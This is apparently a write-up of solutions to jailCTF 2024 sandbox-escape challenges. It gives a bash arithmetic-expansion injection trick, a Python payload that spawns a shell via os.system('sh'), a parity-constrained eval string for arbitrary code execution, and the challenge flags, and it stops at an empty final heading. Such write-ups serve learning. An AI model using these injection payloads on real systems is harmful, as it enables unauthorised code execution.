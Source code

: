 # jailCTF 2024

https://ctf.pyjail.club/

| Place    | Score |
| -------- | ----- |
| 64/715 | 951  |

Very interesting CTF, focusing on jailbreaking techniques.

## blind-calc

The source code probably looks like this

```shell
read -p "Enter math > " expr
a=$(( \
expr \
))
echo $a
```

ref: https://www.nccgroup.com/us/research-blog/shell-arithmetic-expansion-and-evaluation-abuse/

**tl;dr:** `arr[$(COMMAND)]`

<details>
  <summary>FLAG</summary>
  <tt>jail{blind-calc_9c701e8c09f6cc0edd6}</tt>
</details>

## filter'd

```python
a=input;f(a())
M=999;f(a())
__import__('os').system('sh')
```

<details>
  <summary>FLAG</summary>
  <tt>jail{can_you_repeat_that_for_me?_aacb7144d2c}</tt>
</details>

## parity 1

The input string's ascii value must be even, odd, even, odd,....

Ultimately, we want to build `eval("eval(input()")`. Because the ascii value of "eval" is odd, even, odd, even.

The table lists import elements we can use to build the exploitation.

| char          | ord%2 |
| ------------- | ----- |
| `(`           | 0     |
| `)`           | 1     |
| `tab` or `\t` | 1     |
| `"`           | 0     |
| ` `           | 0     |
| `'`           | 1     |

And there are some Python syntax that allow us to do so.

- String concat: `"cat"'dog'` return `"catdog"`

- In the eval's input string:
  
  - Allowing tab and space inside parentheses
  
  - Allowing tab and space between funtion name and parentheses
  
  - Allowing tab and space in the start.

After some painful process, I construct a string that can let us execute arbitrary python code:

` eval\t(\' eval\' \'(\'"i"\'n\' + \'p\'"u"\'t\' \'(\'")"\' ) \' )`

<details>
  <summary>FLAG</summary>
  <tt>jail{parity_41f5812e8c0cd9}</tt>
</details>

## SUS-Calculator
